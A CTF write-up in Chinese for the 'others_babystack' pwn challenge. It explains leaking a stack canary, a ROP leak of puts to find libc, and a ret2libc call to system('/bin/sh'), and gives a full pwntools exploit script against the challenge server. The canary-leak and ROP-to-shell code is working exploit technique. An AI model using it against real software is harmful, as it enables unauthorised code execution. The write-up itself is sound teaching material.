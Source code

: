 ```yaml
---
title: 'others_babystack'
date: 2024-01-27 13:00:00 +0800
categories: [ctf,pwn]
tags: [uaf,malloc_hook,unsortbin_leaklibc]
---
```

- Canary 保护
- 程序控制流
- 64位libc泄露

```shell
bamuwe@bamuwe:~/done/others_babystack$ checksec babystack
[*] '/home/bamuwe/done/others_babystack/babystack'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

程序开启了Canary保护

![image-20240127172338486](../assets/img/old_imgs/image-20240127172338486.png)

1. 程序存在`Canary`保护，所以要先泄露出`Canary`
2. `read`中存在溢出
3. 通过`read`配合`puts`得到`Canary`的值
4. 构造`payload`利用`exit`函数劫持程序流，泄露`libc`
5. 构造`payload`得到`shell`

```python
from pwn import *
from LibcSearcher import LibcSearcher
# context.log_level = 'debug'
# io = gdb.debug('./babystack')
io = remote('node5.buuoj.cn',29522)
elf = ELF('./babystack')
padding = cyclic(136)
pop_rdi_ret = 0x0000000000400a93
main_addr = 0x400908

def cmd(idx):
    io.sendlineafter(b'>>',str(idx))
def leak_canry():
    cmd(1)
    io.sendline(padding)
    cmd(2)
    io.recvuntil('\n')
    canary = u64(io.recv(7).rjust(8, b'\x00'))
    print(hex(canary))
    return canary
def leak_puts(canary):
    cmd(1)
    payload = padding+p64(canary)+p64(0x0)+p64(pop_rdi_ret)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(main_addr)
    io.sendline(payload)
    cmd(3)
    puts_addr = u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
    print('puts_addr->',hex(puts_addr))
    return puts_addr
def pwn(puts_addr):
    libc = LibcSearcher('puts',puts_addr)
    lib_offset = puts_addr - libc.dump('puts')
    sys_addr = lib_offset+libc.dump('system')
    bin_sh_addr = lib_offset+libc.dump('str_bin_sh')
    payload = padding+p64(canary)+p64(0x0)+p64(pop_rdi_ret)+p64(bin_sh_addr)+p64(sys_addr)
    cmd(1)
    io.sendline(payload)
    cmd(3)
    io.sendline('cat flag')
    io.interactive()

canary = leak_canry()
puts_addr = leak_puts(canary)
pwn(puts_addr)

```

这里面看佬的wp新学一招，使用`cyclic(lengths)`可以直接得到所需长度的循环字符串

